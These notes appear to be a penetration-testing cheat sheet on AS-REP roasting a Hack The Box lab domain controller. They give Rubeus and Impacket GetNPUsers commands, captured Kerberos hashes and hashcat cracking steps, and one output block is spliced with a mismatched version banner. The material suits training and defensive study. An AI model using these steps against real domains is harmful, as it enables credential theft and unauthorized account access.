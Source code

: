 ### Dumping KRBASREP5 Hashes with Rubeus (local)

* `cd Downloads` - navigate to the directory Rubeus is in
* This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

```
Rubeus.exe asreproast
```

#### Crack those Hashes with hashcat

* Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file
* Insert `23$` after `$krb5asrep$` so that the first line will be $krb5asrep$23$User.....
* Crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200

```
hashcat -m 18200 hash.txt Pass.txt
```

### AS-REP Roasting with Impacket (remote)

* This attack takes advantage of users that have `UF_DONT_REQUIRE_PREAUTH` set.  This will allow us to steal their `$krb` hash, which once cracked will allow remote authentication via rdp winrm, smb etc.

```
sudo python /opt/impacket/examples/GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request -usersfile /home/kali/Documents/htb/forest/loot/user.txt
#output
Impacket v0.10.1.dev1+20220704.185348.f2eb2b65 - Copyright 2022 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:12a052338596b97da3d3a45db829b01d$f6a2d6438e7afec40f4a6a8c798dd5489953e91c742248dba6d8549d8b0adde9e9d655fc58653d9c66c618139e51c4e30bf2639c867f96803118c9f08c7e7f09c21b817cdb495dd57715f501d0ca3d7aebe61f9fda4e8b31232516cfd1c2237278e3e0de31d180042bc2a588d907b1001b24657350683f005d6db20fdaac5e06412c1a90ef75e5f962254fcc9e3094e0396d354f0c17211ea081d13b1c822366ef2c256d39572872d38d475c934f322b75129bdf05cc737a555446ee62265c22cb6e92ea890ec23da455e5fb715d0ac8db5630e85a2bef7210b5e59555073a0dcbd8cc1118fc
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
 
#another option
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```

```
sudo python /opt/impacket/examples/GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161
Impacket v0.10.1.dev1+20220704.185348.f2eb2b65 - Copyright 2022 SecureAuth Corporation
Password: 
[*] Cannot authenticate svc-alfresco, getting its TGT $krb5asrep$23$svc-alfresco@HTB.LOCAL:1d6d0d121b56b32b2b13b689da2a8893$c01bfb3b9d3b472411c8897fe6557997d08bf5c8bb31c07a7a5370aebd2a99a7684434d8e8e50105e855cf3e7d4c80c4dabada3416fd9c6cc38cc0775c7e627f3828a044fe6441985b65210356304fa90bbd4a3c33fd969f03eeee745f299678ecdeb759add7a6afd46713f7f44e3118bdc74f44d37f891b6c899e46858f93c830470148ac49af820d007628513cf72b86f568072d0dc7c7d2f25b11bbc223168d05050133865ba1aedfe8e4c1bd24fefe599f20be7faf48b3306afb5345988b9de69f1760b14575f5cdf0814d8f8fc087aba7959fdeceffc2edc492cca735d09c9b0ee6f0c9Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation
```
